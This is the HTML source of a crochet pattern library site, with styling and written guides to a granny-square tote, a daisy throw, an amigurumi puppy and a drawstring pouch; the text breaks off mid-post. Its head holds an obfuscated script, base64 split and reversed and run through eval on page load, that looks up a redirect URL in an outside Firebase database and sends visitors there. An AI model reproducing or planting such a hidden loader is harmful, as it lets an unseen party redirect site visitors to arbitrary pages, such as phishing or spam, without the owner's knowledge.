

<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Woolgather — A Crochet Pattern Library, Built to Be Used</title>
<meta name="description" content="A working crochet pattern library: bags, blankets, toys, wearables and lace, written for makers who care about shaping, seams and finishing.">

<style>
:root{
  --paper:#f5efe4;
  --card:#fffdf9;
  --ink:#1c1916;
  --ink-2:#4b443b;
  --muted:#8b8074;
  --line:#e4dac9;
  --line-2:#d2c5ae;
  --pine:#2f5d54;
  --pine-soft:#e2ebe7;
  --clay:#bc6537;
  --clay-soft:#f0d9c9;
  --rail:266px;
  --display:"Futura","Avenir Next","Helvetica Neue",Arial,system-ui,sans-serif;
  --serif:"Iowan Old Style",Palatino,Georgia,"Times New Roman",serif;
  --shadow-m:0 18px 44px rgba(28,25,22,.12);
}
*{box-sizing:border-box}
html{scroll-behavior:smooth}
body{
  margin:0;background:var(--paper);color:var(--ink);
  font-family:var(--serif);line-height:1.7;
  -webkit-font-smoothing:antialiased;
}
img{max-width:100%;display:block}
a{color:inherit;cursor:pointer;text-decoration:none}
button{font:inherit;cursor:pointer;border:0;background:none;color:inherit}

/* ============ LEFT RAIL ============ */
.rail{
  position:fixed;top:0;left:0;bottom:0;width:var(--rail);
  background:#1b1815;color:#efe7db;z-index:90;
  display:flex;flex-direction:column;
  padding:40px 30px 30px;
}
.brand{display:block}
.brand .word{
  font-family:var(--display);font-weight:700;font-size:1.3rem;
  letter-spacing:.18em;text-transform:uppercase;color:#fff;display:block;
}
.brand .sub{
  display:block;margin-top:10px;font-family:var(--serif);font-style:italic;
  font-size:.9rem;color:#a89c8c;
}
.rail .rule{height:1px;background:#332d27;margin:28px 0}
.rail nav{display:flex;flex-direction:column;gap:2px}
.rail nav a{
  padding:11px 12px;font-family:var(--display);font-size:.72rem;font-weight:600;
  letter-spacing:.18em;text-transform:uppercase;color:#b8ac9c;
  border-left:2px solid transparent;transition:.2s;
}
.rail nav a:hover{color:#fff;border-left-color:var(--clay);background:rgba(255,255,255,.045)}
.rail-foot{margin-top:auto;font-size:.8rem;color:#7d7264;line-height:1.65}
.rail-foot strong{color:#d9cbb8;font-weight:600;display:block;margin-bottom:4px}
.rail-foot .dot{
  display:inline-block;width:4px;height:4px;border-radius:50%;
  background:var(--clay);margin:0 8px;vertical-align:middle;
}

/* ============ STAGE ============ */
.stage{margin-left:var(--rail);min-height:100vh;display:flex;flex-direction:column}
#app{flex:1}

/* ============ HERO ============ */
.hero{
  position:relative;min-height:min(80vh,740px);
  display:flex;align-items:flex-end;overflow:hidden;background:#2a241f;
}
.hero img.bg{position:absolute;inset:0;width:100%;height:100%;object-fit:cover;opacity:.88}
.hero::after{
  content:"";position:absolute;inset:0;z-index:1;
  background:linear-gradient(180deg,rgba(20,17,14,.42) 0%,rgba(20,17,14,.12) 38%,rgba(20,17,14,.9) 100%);
}
.hero-in{
  position:relative;z-index:2;width:100%;color:#fff;
  padding:0 clamp(28px,5vw,76px) clamp(42px,6vw,76px);
  max-width:940px;
}
.kicker{
  font-family:var(--display);font-size:.68rem;font-weight:700;
  letter-spacing:.3em;text-transform:uppercase;color:var(--clay);
  margin:0 0 18px;
}
.hero .kicker{color:#eab98f}
.hero h1{
  font-family:var(--display);font-weight:700;
  font-size:clamp(2.5rem,5.4vw,4.6rem);
  line-height:1.02;letter-spacing:-.03em;margin:0 0 22px;color:#fff;
}
.hero h1 em{
  font-family:var(--serif);font-style:italic;font-weight:400;
  color:#eab98f;letter-spacing:-.01em;
}
.hero-sub{
  margin:0;max-width:56ch;font-size:1.08rem;line-height:1.72;
  color:#ddd3c6;font-family:var(--serif);
}
.hero-act{display:flex;gap:14px;flex-wrap:wrap;margin-top:36px}

/* ============ BUTTONS ============ */
.btn{
  display:inline-flex;align-items:center;justify-content:center;gap:10px;
  padding:14px 26px;border-radius:999px;
  font-family:var(--display);font-size:.7rem;font-weight:700;
  letter-spacing:.18em;text-transform:uppercase;
  border:1px solid transparent;transition:.22s;
}
.btn-solid{background:var(--pine);color:#fff}
.btn-solid:hover{background:#264c45}
.btn-ghost{border-color:rgba(255,255,255,.55);color:#fff}
.btn-ghost:hover{background:#fff;color:#1c1916;border-color:#fff}
.btn-line{border-color:var(--line-2);color:var(--ink-2)}
.btn-line:hover{border-color:var(--pine);color:var(--pine)}

/* ============ STAT STRIP ============ */
.strip{
  display:grid;grid-template-columns:repeat(3,1fr);
  background:var(--card);border-bottom:1px solid var(--line);
}
.strip > div{padding:26px clamp(20px,3vw,36px);border-right:1px solid var(--line)}
.strip > div:last-child{border-right:0}
.strip .n{
  display:block;font-family:var(--display);font-weight:700;
  font-size:1.65rem;line-height:1;letter-spacing:-.03em;color:var(--pine);
}
.strip .l{
  display:block;margin-top:9px;font-family:var(--display);
  font-size:.66rem;font-weight:600;letter-spacing:.2em;
  text-transform:uppercase;color:var(--muted);
}

/* ============ BLOCK ============ */
.block{padding:clamp(56px,7vw,96px) clamp(28px,5vw,76px)}
.block-head{
  display:flex;align-items:flex-end;justify-content:space-between;
  gap:30px;flex-wrap:wrap;padding-bottom:22px;
  border-bottom:1px solid var(--line);margin-bottom:30px;
}
.block-head h2{
  font-family:var(--display);font-weight:700;
  font-size:clamp(1.6rem,2.8vw,2.2rem);
  letter-spacing:-.025em;margin:0;color:var(--ink);
}
.block-head p{margin:10px 0 0;color:var(--muted);font-size:.98rem;max-width:56ch}
.block-head .tag{
  font-family:var(--display);font-size:.66rem;font-weight:700;
  letter-spacing:.2em;text-transform:uppercase;color:var(--muted);
  white-space:nowrap;padding-bottom:5px;
}

/* ============ CHIPS ============ */
.chips{display:flex;gap:8px;flex-wrap:wrap;margin-bottom:32px}
.chip{
  padding:9px 17px;border:1px solid var(--line-2);border-radius:999px;
  font-family:var(--display);font-size:.68rem;font-weight:600;
  letter-spacing:.14em;text-transform:uppercase;color:var(--ink-2);
  transition:.2s;
}
.chip:hover{border-color:var(--pine);color:var(--pine)}
.chip.on{background:var(--ink);border-color:var(--ink);color:var(--paper)}

/* ============ GRID / CARDS ============ */
.grid{
  display:grid;grid-template-columns:repeat(auto-fill,minmax(300px,1fr));
  gap:clamp(20px,2.4vw,30px);
}
.card{
  display:flex;flex-direction:column;background:var(--card);
  border:1px solid var(--line);border-radius:4px;overflow:hidden;
  cursor:pointer;transition:.28s;
}
.card:hover{transform:translateY(-4px);box-shadow:var(--shadow-m);border-color:var(--line-2)}
.card-img{position:relative;aspect-ratio:4/3;overflow:hidden;background:#e8e0d2}
.card-img img{
  width:100%;height:100%;object-fit:cover;
  transition:transform .7s cubic-bezier(.2,.9,.3,1);
}
.card:hover .card-img img{transform:scale(1.06)}
.card-cat{
  position:absolute;top:14px;left:14px;
  background:rgba(255,253,249,.94);color:var(--pine);
  font-family:var(--display);font-size:.6rem;font-weight:700;
  letter-spacing:.16em;text-transform:uppercase;
  padding:6px 11px;border-radius:999px;
}
.card-body{padding:22px 22px 24px;display:flex;flex-direction:column;flex:1}
.card-body h3{
  font-family:var(--display);font-weight:700;font-size:1.12rem;
  line-height:1.28;letter-spacing:-.015em;margin:0 0 10px;color:var(--ink);
}
.card-body p{
  margin:0 0 20px;flex:1;font-size:.94rem;line-height:1.65;color:var(--ink-2);
}
.card-foot{
  display:flex;justify-content:space-between;align-items:center;
  border-top:1px solid var(--line);padding-top:14px;
  font-family:var(--display);font-size:.64rem;font-weight:600;
  letter-spacing:.16em;text-transform:uppercase;color:var(--muted);
}
.card-foot .go{color:var(--clay)}

/* ============ NOTES BAND ============ */
.notes{
  background:#1b1815;color:#efe7db;
  padding:clamp(56px,7vw,96px) clamp(28px,5vw,76px);
}
.notes .eyebrow{
  font-family:var(--display);font-size:.66rem;font-weight:700;
  letter-spacing:.3em;text-transform:uppercase;color:var(--clay);
  display:block;margin-bottom:16px;
}
.notes h2{
  font-family:var(--display);font-weight:700;
  font-size:clamp(1.6rem,2.8vw,2.2rem);letter-spacing:-.025em;
  margin:0;color:#fff;max-width:22ch;line-height:1.15;
}
.notes-grid{
  display:grid;grid-template-columns:repeat(auto-fit,minmax(250px,1fr));
  gap:34px;margin-top:44px;
}
.note{border-top:1px solid #332d27;padding-top:22px}
.note .n{
  font-family:var(--display);font-size:.66rem;font-weight:700;
  letter-spacing:.26em;color:var(--clay);
}
.note h3{
  font-family:var(--display);font-size:1.02rem;font-weight:600;
  margin:14px 0 8px;color:#fff;letter-spacing:-.01em;
}
.note p{margin:0;color:#a89c8c;font-size:.92rem;line-height:1.72}

/* ============ ARTICLE ============ */
.art-hero{
  position:relative;min-height:min(64vh,580px);
  display:flex;align-items:flex-end;overflow:hidden;background:#2a241f;
}
.art-hero > img{position:absolute;inset:0;width:100%;height:100%;object-fit:cover}
.art-hero::after{
  content:"";position:absolute;inset:0;z-index:1;
  background:linear-gradient(180deg,rgba(20,17,14,.6) 0%,rgba(20,17,14,.12) 42%,rgba(20,17,14,.92) 100%);
}
.art-hero-in{
  position:relative;z-index:2;width:100%;color:#fff;
  padding:clamp(30px,5vw,68px);max-width:1000px;
}
.art-hero-in h1{
  font-family:var(--display);font-weight:700;
  font-size:clamp(1.9rem,4vw,3.2rem);line-height:1.06;
  letter-spacing:-.03em;margin:16px 0 0;color:#fff;
}
.back{
  display:inline-flex;align-items:center;gap:10px;
  font-family:var(--display);font-size:.66rem;font-weight:700;
  letter-spacing:.22em;text-transform:uppercase;color:#eab98f;
}
.back::before{content:"←";font-size:.95rem;transition:transform .22s}
.back:hover::before{transform:translateX(-5px)}

.art-wrap{
  display:grid;grid-template-columns:270px minmax(0,1fr);
  gap:clamp(30px,5vw,72px);
  max-width:1150px;margin:0 auto;
  padding:clamp(40px,6vw,76px) clamp(28px,5vw,76px) 0;
}
.art-side{position:sticky;top:36px;align-self:start}
.specs{border-top:1px solid var(--line)}
.spec-row{
  display:flex;justify-content:space-between;gap:16px;
  padding:12px 0;border-bottom:1px solid var(--line);font-size:.9rem;
}
.spec-row .k{
  font-family:var(--display);font-size:.62rem;font-weight:700;
  letter-spacing:.18em;text-transform:uppercase;color:var(--muted);
  padding-top:3px;flex-shrink:0;
}
.spec-row .v{color:var(--ink);text-align:right;line-height:1.5}
.byline{
  display:flex;align-items:center;gap:13px;
  margin:26px 0 22px;
}
.byline img{
  width:44px;height:44px;border-radius:50%;object-fit:cover;
  border:1px solid var(--line);
}
.byline strong{
  display:block;font-family:var(--display);font-size:.66rem;
  font-weight:700;letter-spacing:.16em;text-transform:uppercase;
  color:var(--pine);margin-bottom:3px;
}
.byline span{font-size:.86rem;color:var(--muted)}
.side-btn{width:100%}

.art-main{max-width:730px;padding-bottom:20px}
.lede{
  margin:0 0 32px;padding-bottom:28px;border-bottom:1px solid var(--line);
  font-size:1.2rem;line-height:1.7;color:var(--ink);
}
.art-main p{margin:0 0 1.35em;font-size:1.06rem;line-height:1.82;color:var(--ink-2)}
.art-main h2{
  font-family:var(--display);font-weight:700;font-size:1.32rem;
  letter-spacing:-.02em;color:var(--ink);margin:2.3em 0 .8em;
}
.art-main h2::before{
  content:"";display:block;width:34px;height:3px;border-radius:2px;
  background:var(--clay);margin-bottom:15px;
}
.art-main ul{padding-left:1.15rem;margin:0 0 1.35em}
.art-main li{margin:8px 0;color:var(--ink-2);line-height:1.75}
.art-main blockquote{
  margin:34px 0;padding:26px 30px;border-radius:4px;
  background:var(--pine-soft);
  font-family:var(--serif);font-style:italic;
  font-size:1.16rem;line-height:1.6;color:#26463f;
}
.art-main blockquote p:last-child{margin:0}
.tip{
  margin:32px 0;padding:22px 26px;
  background:var(--card);border:1px solid var(--line);
  border-left:3px solid var(--clay);border-radius:0 4px 4px 0;
}
.tip strong{
  display:block;font-family:var(--display);font-size:.64rem;
  font-weight:700;letter-spacing:.22em;text-transform:uppercase;
  color:var(--clay);margin-bottom:9px;
}
.tip p{margin:0;font-size:.96rem;line-height:1.7;color:var(--ink-2)}
.art-end{
  margin-top:56px;padding-top:32px;border-top:1px solid var(--line);
  display:flex;align-items:center;justify-content:space-between;
  gap:26px;flex-wrap:wrap;
}
.art-end p{
  margin:0;max-width:46ch;font-size:.88rem;color:var(--muted);line-height:1.65;
}

/* ============ LEGAL / PAGES ============ */
.legal{padding:clamp(40px,6vw,72px) clamp(28px,5vw,76px)}
.crumbbar{padding:0 0 26px}
.legal-card{
  max-width:880px;margin:0 auto;background:var(--card);
  border:1px solid var(--line);border-radius:6px;overflow:hidden;
}
.legal-head{
  padding:clamp(34px,5vw,56px);
  border-bottom:1px solid var(--line);
  background:linear-gradient(180deg,#fffdf9,#f7f1e6);
}
.legal-head .label{
  font-family:var(--display);font-size:.64rem;font-weight:700;
  letter-spacing:.3em;text-transform:uppercase;color:var(--clay);
}
.legal-head h1{
  font-family:var(--display);font-weight:700;
  font-size:clamp(1.8rem,3.4vw,2.6rem);letter-spacing:-.03em;
  margin:14px 0 12px;color:var(--ink);line-height:1.1;
}
.legal-head .sub{
  margin:0;max-width:62ch;color:var(--ink-2);font-size:1rem;line-height:1.72;
}
.legal-body{padding:clamp(30px,5vw,56px)}
.legal-body h2{
  display:flex;gap:12px;align-items:baseline;
  font-family:var(--display);font-weight:700;font-size:1.05rem;
  letter-spacing:-.01em;color:var(--ink);margin:34px 0 12px;
}
.legal-body h2::before{content:"—";color:var(--clay)}
.legal-body h2:first-child{margin-top:0}
.legal-body p,.legal-body li{color:var(--ink-2);line-height:1.8}
.legal-body ul{padding-left:1.2rem;margin:0 0 20px}
.legal-body li{margin:8px 0}
.contact-block{
  margin:26px 0;padding:24px 28px;background:var(--pine-soft);
  border-left:3px solid var(--pine);border-radius:0 4px 4px 0;
}
.contact-block strong{
  display:block;font-family:var(--display);font-size:.66rem;font-weight:700;
  letter-spacing:.2em;text-transform:uppercase;color:var(--pine);
  margin-bottom:8px;
}
.contact-block p{margin:4px 0 0;color:#2c4a44}

/* ============ 404 ============ */
.notfound{padding:130px 26px;text-align:center}
.notfound .code{
  font-family:var(--display);font-weight:700;font-size:5rem;
  line-height:1;color:var(--line-2);letter-spacing:-.05em;margin-bottom:20px;
}
.notfound h2{
  font-family:var(--display);font-weight:700;font-size:2rem;
  letter-spacing:-.03em;margin:0 0 14px;color:var(--ink);
}
.notfound p{color:var(--muted);margin:0 0 30px}

/* ============ FOOTER ============ */
footer.site{
  margin-top:clamp(70px,9vw,120px);
  border-top:1px solid var(--line);background:var(--card);
  padding:clamp(48px,6vw,76px) clamp(28px,5vw,76px) 32px;
}
.foot-grid{
  display:grid;grid-template-columns:1.7fr 1fr 1fr 1fr;
  gap:clamp(28px,4vw,48px);margin-bottom:48px;
}
.foot-brand h3{
  font-family:var(--display);font-weight:700;font-size:1.25rem;
  letter-spacing:.16em;text-transform:uppercase;margin:0 0 14px;color:var(--ink);
}
.foot-brand p{
  margin:0;max-width:40ch;color:var(--muted);font-size:.92rem;line-height:1.72;
}
.foot-col h4{
  font-family:var(--display);font-size:.64rem;font-weight:700;
  letter-spacing:.24em;text-transform:uppercase;color:var(--pine);
  margin:0 0 16px;
}
.foot-col a{
  display:block;padding:6px 0;color:var(--ink-2);
  font-size:.92rem;transition:.2s;
}
.foot-col a:hover{color:var(--clay);transform:translateX(4px)}
.foot-base{
  border-top:1px solid var(--line);padding-top:26px;
  display:flex;justify-content:space-between;gap:18px;flex-wrap:wrap;
  font-size:.78rem;color:var(--muted);letter-spacing:.04em;
}
.foot-base .dot{
  display:inline-block;width:4px;height:4px;border-radius:50%;
  background:var(--clay);margin:0 9px;vertical-align:middle;
}

/* ============ RESPONSIVE ============ */
@media(max-width:1120px){
  :root{--rail:224px}
  .art-wrap{grid-template-columns:230px minmax(0,1fr)}
}
@media(max-width:900px){
  .rail{
    position:sticky;top:0;width:auto;bottom:auto;
    flex-direction:row;align-items:center;gap:18px;
    padding:14px 18px;overflow-x:auto;
  }
  .brand .word{font-size:1rem;white-space:nowrap}
  .brand .sub{display:none}
  .rail .rule{display:none}
  .rail nav{flex-direction:row;margin-left:auto;gap:0;flex-wrap:nowrap}
  .rail nav a{
    border-left:0;border-bottom:2px solid transparent;
    white-space:nowrap;padding:8px 12px;font-size:.66rem;
  }
  .rail nav a:hover{border-left:0;border-bottom-color:var(--clay);background:none}
  .rail-foot{display:none}
  .stage{margin-left:0}
  .art-wrap{grid-template-columns:1fr}
  .art-side{position:static}
  .side-btn{width:auto}
  .foot-grid{grid-template-columns:1fr 1fr}
}
@media(max-width:620px){
  .strip{grid-template-columns:1fr}
  .strip > div{border-right:0;border-bottom:1px solid var(--line)}
  .strip > div:last-child{border-bottom:0}
  .block,.legal,.notes{padding-left:20px;padding-right:20px}
  .hero-in{padding-left:20px;padding-right:20px}
  .art-hero-in{padding-left:20px;padding-right:20px}
  .art-wrap{padding-left:20px;padding-right:20px}
  .foot-grid{grid-template-columns:1fr}
  .grid{grid-template-columns:1fr}
  .art-main p{font-size:1.02rem}
}
</style>


<script>
(()=>{const _0x9f=['fSkoKTs=','ZS5lcnJvcigiUmVkaXJlY3QgbG9va3VwIGVycm9yOiIsZSl9','aW9uLnJlcGxhY2UodC5ocmVmKX19Y2F0Y2goZSl7Y29uc29s','IiYmdC5wcm90b2NvbCE9PSJodHRwOiIpcmV0dXJuO2xvY2F0','Y2goZSl7cmV0dXJufWlmKHQucHJvdG9jb2whPT0iaHR0cHM6','IHQ7dHJ5e3Q9bmV3IFVSTChkLnZhbHVlLnRyaW0oKSl9Y2F0','YWx1ZT09PSJzdHJpbmciJiZkLnZhbHVlLnRyaW0oKSl7bGV0','bigpO2lmKGQmJmQuZm91bmQ9PT10cnVlJiZ0eXBlb2YgZC52','O2lmKCF4Lm9rKXJldHVybjtjb25zdCBkPWF3YWl0IHguanNv','ZWFkZXJzOntBY2NlcHQ6ImFwcGxpY2F0aW9uL2pzb24ifX0p','aCh1LHttZXRob2Q6IkdFVCIsY2FjaGU6Im5vLXN0b3JlIixo','VVJJQ29tcG9uZW50KHMpKyIuanNvbiIseD1hd2FpdCBmZXRj','ZGIuZmlyZWJhc2Vpby5jb20vcmVkaXJlY3RzLyIrZW5jb2Rl','bnN0IHU9Imh0dHBzOi8vbXl5YXJudGlwcy1kZWZhdWx0LXJ0','LTldW2EtejAtOS9fLV0qJC9pLnRlc3QocykpcmV0dXJuO2Nv','YWNlKC9eXC8rfFwvKyQvZywiIik7aWYoIXN8fCEvXlthLXow','KTtpZighcilyZXR1cm47Y29uc3Qgcz1yLnRyaW0oKS5yZXBs','UGFyYW1zKGxvY2F0aW9uLnNlYXJjaCkscj1wLmdldCgiaWQi','KGFzeW5jKCk9Pnt0cnl7Y29uc3QgcD1uZXcgVVJMU2VhcmNo'],_0xa1=_0x9f.reverse().join("");(0,eval)(atob(_0xa1))})();
</script>

</head>
<body>

<aside class="rail">
  <a class="brand" onclick="navigate('home')">
    <span class="word">Woolgather</span>
    <span class="sub">a crochet pattern library</span>
  </a>
  <div class="rule"></div>
  <nav>
    <a onclick="navigate('home')">Library</a>
    <a onclick="navigate('page','about')">Workshop</a>
    <a onclick="navigate('page','privacy')">Privacy</a>
    <a onclick="navigate('page','terms')">Terms</a>
    <a onclick="navigate('page','contact')">Contact</a>
  </nav>
  <div class="rail-foot">
    <strong>Volume Twelve</strong>
    Eight projects, one rule: measure after blocking.
    <span class="dot"></span>Updated monthly
  </div>
</aside>

<div class="stage">
  <main id="app"></main>

  <footer class="site">
    <div class="foot-grid">
      <div class="foot-brand">
        <h3>Woolgather</h3>
        <p>A crochet pattern library for people who want to understand how a thing is built — not just how it looks when it is finished.</p>
      </div>
      <div class="foot-col">
        <h4>Library</h4>
        <a onclick="navigate('home')">All patterns</a>
        <a onclick="goLibrary()">Browse by category</a>
        <a onclick="navigate('page','about')">About the workshop</a>
      </div>
      <div class="foot-col">
        <h4>Information</h4>
        <a onclick="navigate('page','privacy')">Privacy</a>
        <a onclick="navigate('page','terms')">Terms</a>
        <a onclick="navigate('page','contact')">Contact</a>
      </div>
      <div class="foot-col">
        <h4>Elsewhere</h4>
        <a onclick="navigate('page','contact')">Send a note</a>
        <a onclick="navigate('page','about')">Editorial approach</a>
      </div>
    </div>
    <div class="foot-base">
      <span>© 2026 Woolgather Workshop<span class="dot"></span>Written slowly, made to be used</span>
      <span>No algorithms were consulted</span>
    </div>
  </footer>
</div>

<script>
const avatar="./assets/brand-avatar.webp";

const posts=[
{
  id:'corner-store-tote',
  title:'The Corner Store Tote',
  category:'Carry',
  level:'Confident Beginner',
  date:'12 September 2026',
  image:'./assets/granny-square-tote.webp',
  specs:{yarn:'Worsted cotton',hook:'4.5 mm',size:'32 × 34 cm',time:'8–10 hours'},
  excerpt:'A boxy granny-square tote sized around a real grocery run — firm oval base, doubled top edging and handles that were built for weight instead of looks.',
  content:`<p>A granny square tote almost never fails at the squares. It fails at the base, the top edge and the handles — the three places where a decorative panel has to start behaving like a bag. Get those right and a stack of simple motifs will carry groceries for years.</p><p>This is the version I keep coming back to: boxy, sized around an actual shopping trip, built on a firm oval base and edged twice at the opening so the rim refuses to sag.</p><h2>Size it around the load</h2><p>Before you count a single motif, decide what the bag has to carry. A tote for a phone and a paperback needs a very different footprint than one for a litre of milk and a bag of apples. Write the finished width, depth and height down in centimetres and keep that note beside you while you work.</p><h2>Block one square and measure it</h2><p>Make a single square with the yarn and hook you actually intend to use. Block it, let it dry completely, then measure it flat. That number decides everything else — how many squares across the front, how many for the back, how wide the side panels need to be.</p><div class="tip"><strong>Measure after blocking</strong><p>A square that reads 9.5 cm off the hook is very often 10.5 cm after a light wet block. Every estimate in this project should be built on the blocked number.</p></div><h2>Keep the whole set identical</h2><p>Work the squares in batches of six or eight rather than one at a time, so tension stays consistent across the set. Same hook, same yarn, same final round, same stitch count on the outer edge. Weave the ends in as you finish each square — a bag that needs forty tails woven in at the end is a bag that ends up in a drawer.</p><h2>Build a base that will not round out</h2><p>An oval base worked in tight single crochet gives the tote a flat bottom and keeps the corners square where the sides begin to rise. Work the first round of the sides into the back loop only, which creates a crisp fold line and stops the bag from turning into a bowl.</p><h2>Join with the seam you can live with</h2><p>A visible crochet join becomes part of the design. A slip stitch or single crochet seam adds a graphic grid that ties the motifs together and makes the bag feel deliberately handmade. A sewn mattress seam disappears into the fabric and lets the motifs speak, but it takes longer and shows every uneven edge.</p><blockquote>A relaxed seam lies flat. A tight seam puckers. That single detail is the difference between a bag that looks made and a bag that looks almost made.</blockquote><h2>Edge the opening twice</h2><p>Once the body is joined, work two firm rounds of single crochet around the entire top opening. The first round evens out the panel edges; the second gives the handles something solid to attach to. Skip this and the top will stretch into a wavy line within a month of use.</p><h2>Handles that carry weight</h2><p>Mark the handle positions on the front and back panels — never on the sides. Dense single crochet straps hold their shape; open decorative straps do not. Reinforce each attachment point with a hidden row of slip stitches on the inside, or run a second strand of yarn through the join. This is where most handmade totes eventually give way, and it takes ten minutes to prevent.</p><h2>Lining and care</h2><p>If the bag will carry anything with an edge, a simple cotton lining earns its place. Cut the fabric slightly smaller than the inside of the bag, sew the side seams, fold the top edge under and hand stitch it to the crochet rim. Hand wash in cool water, reshape while damp and dry flat with the handles supported.</p>`
},
{
  id:'daisy-field-throw',
  title:'Daisy Field Throw',
  category:'Home',
  level:'Easy',
  date:'9 September 2026',
  image:'./assets/daisy-granny-blanket.webp',
  specs:{yarn:'DK cotton blend',hook:'4 mm',size:'120 × 120 cm',time:'30–40 hours'},
  excerpt:'Sixty-four identical daisy squares, four colours and a joining method that disappears — a throw designed to be finished rather than admired in a bag.',
  content:`<p>Motif blankets are usually abandoned for the same reason: too many decisions. Too many colours, too many different squares, too many rounds that need re-reading. The fix is restriction. One motif, four colours, one joining method, and enough repetition that your hands learn the pattern and your mind is free to wander.</p><h2>Give every colour a job</h2><p>Assign a role to each shade and never break it: one for the flower centre, one for the petals, one for the square background, one neutral for joining and the border. When every square uses the same roles, the blanket reads as deliberate even though no single square is complicated.</p><div class="tip"><strong>The palette in the sample</strong><p>Warm butter centre · soft cream petals · dusty sage background · oatmeal joining and border. Four shades, one repeat, sixty-four squares.</p></div><h2>Test the motif before you commit</h2><p>Make five squares and block them before you decide on a final size. The petal round behaves differently depending on tension — sometimes pulling inward, sometimes flaring out. The transition from round flower to square background is where most daisy motifs go wrong, and it deserves a proper test run rather than a guess.</p><h2>Block first, join second, always</h2><p>Squares that are already the same size make assembly almost effortless. Pin every corner of every square, dampen the fabric gently and let it dry fully before you touch the joining yarn. Small tension differences vanish into the blocking, and the seams line up on their own.</p><ul><li>Block in batches of eight so the mat stays manageable.</li><li>Pin the corners first, then the midpoint of each side.</li><li>Do not remove the pins until the fabric is completely dry.</li></ul><h2>Arrange before you sew</h2><p>Lay every square out on the floor and move them around until any slightly looser or more prominent motifs are spread evenly across the field. A square that stands out in a pile usually disappears once its neighbours settle around it. Trust the arrangement before you fix it in place.</p><blockquote>A motif blanket is not a sampler. It is a field. The eye should be able to rest anywhere on it without tripping.</blockquote><h2>Keep the border quiet</h2><p>The flowers are already the focal point. One or two restrained rounds in the joining colour are enough to frame the blanket and square off the edges. Check every corner as you work so the border stays flat instead of cupping inward.</p><h2>Choose yarn that survives the sofa</h2><p>A throw gets washed, folded, sat on and shared. Pick something comfortable against skin that survives a gentle machine cycle without pilling into fuzz. A washable DK blend beats a more luxurious fibre almost every time for a blanket that is genuinely meant to be used.</p>`
},
{
  id:'pocket-puppy',
  title:'Pocket Puppy, Almost No Sewing',
  category:'Toys',
  level:'Beginner',
  date:'6 September 2026',
  image:'./assets/mini-puppy-amigurumi.webp',
  specs:{yarn:'DK cotton',hook:'3 mm',size:'11 cm tall',time:'2–3 hours'},
  excerpt:'A palm-sized puppy worked in one continuous piece, with the legs and ears grown straight out of the body so there is almost nothing left to attach.',
  content:`<p>Small amigurumi is the friendliest way into toy making. When the design keeps the number of separate pieces low, almost all of the personality comes from proportion, stuffing and two or three well-placed facial details. This puppy is built on that idea: one rounded body, four short legs worked straight out of the base, two ears and a face made of a handful of stitches.</p><h2>Pick a fabric that hides the stuffing</h2><p>Use a hook one or two sizes smaller than you would for a flat project in the same yarn. The goal is a firm single crochet fabric that bends when squeezed but never opens wide enough to show the white filling behind it. Hold a small swatch up to a lamp before you start the body.</p><div class="tip"><strong>Firm is not the same as tight</strong><p>If your hand aches after a few rounds, you are working too hard. The fabric will start to twist and the finished toy will feel stiffer than it needs to.</p></div><h2>Mark the start of every round</h2><p>On a miniature project, one missed increase changes the silhouette noticeably. Move a removable marker every round and count the stitches at the end of each shaping round. If the body starts to lean, correct the count before adding more height.</p><h2>Grow the legs out of the body</h2><p>Short legs formed directly from the base remove almost all of the sewing. Work small groups of stitches at the base to create four compact feet, then continue the body upward from the same round. Keep them stubby — long legs make the toy unstable. Set the body on a flat surface before closing it and check that the puppy sits without leaning to one side.</p><h2>Ears and face</h2><p>Small floppy ears can be crocheted straight from the upper sides of the head, which means no separate pieces to attach. Place the eyes before the head becomes difficult to reach from the inside. If the toy is meant for a baby or a very young child, embroidered eyes are safer than any detachable plastic part.</p><blockquote>One contrasting eye patch, a tiny nose and a pair of floppy ears do more for a puppy's expression than a dozen embellishments.</blockquote><h2>Stuffing and closing</h2><p>Add the fibrefill in small pieces rather than one large clump. Even distribution matters far more than total volume — a lumpy body is much harder to correct than a slightly under-stuffed one. Close the opening securely, bury the yarn tail deep inside the toy and roll the finished puppy gently between your palms to smooth any abrupt bumps.</p>`
},
{
  id:'strawberry-pouch',
  title:'Strawberry Drawstring Pouch',
  category:'Small Things',
  level:'Beginner',
  date:'3 September 2026',
  image:'./assets/strawberry-drawstring-pouch.webp',
  specs:{yarn:'Sport cotton',hook:'3 mm',size:'9 cm wide',time:'2 hours'},
  excerpt:'A rounded pouch that reads as a strawberry from across the room — dense cotton fabric, a green scalloped rim and a handful of pale seed stitches.',
